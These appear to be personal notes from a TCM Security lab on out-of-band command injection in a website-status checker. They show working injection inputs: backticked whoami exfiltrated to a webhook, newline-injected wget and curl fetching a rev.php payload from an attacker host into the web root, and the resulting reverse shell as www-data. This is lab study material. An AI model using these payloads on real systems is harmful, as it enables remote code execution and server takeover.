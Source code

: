 
![[Pasted image 20230715153450.png]]

we get OK back

probably from response code 200 OK

test a non existent website name to see response

![[Pasted image 20230715153626.png]]

we get website not found

i/p:
https://tcm-sec.com ; whoami; asd

![[Pasted image 20230715153802.png]]

we get OK again but out ; are being filtered

i/p:

https://webhook.site/c50292e9-da33-4700-a16c-a67e8da/? \`whoami\`

whoami inside  backtiks which will be interpreted as a command and executed

![[Pasted image 20230715154505.png]]

o/p on webhook

![[Pasted image 20230715154539.png]]

user is www-data

this is out of band command injection since we have to catch it at other place reather than it being reflected back to us

i/p:

https://tcm-sec.com \\n wget http://192.168.57.5:8080/test

\\n to go to new line and execute the command

run 
python3 -m http.server 8080
port 80 already in use by tcm lab

![[Pasted image 20230715155113.png]]

![[Pasted image 20230715155440.png]]

edit the port and IP

![[Pasted image 20230715155552.png]]

renamed the file to rev.php

start http server again in /tmp folder when rev.php resides

i/p:
https://tcm-sec.com \\n wget http://192.168.57.5:8080/rev.php

or
```sh
https://tcm-sec.com && curl 192.168.57.5/rev/php > /var/www/html/rev.php
```


output the data of curl to /var/www/html/ directory

![[Pasted image 20230716004644.png]]

go to 

localhost/labs/uploads/rev.php
and we get a reverse shell

![[Pasted image 20230716004541.png]]

and we get back a shell

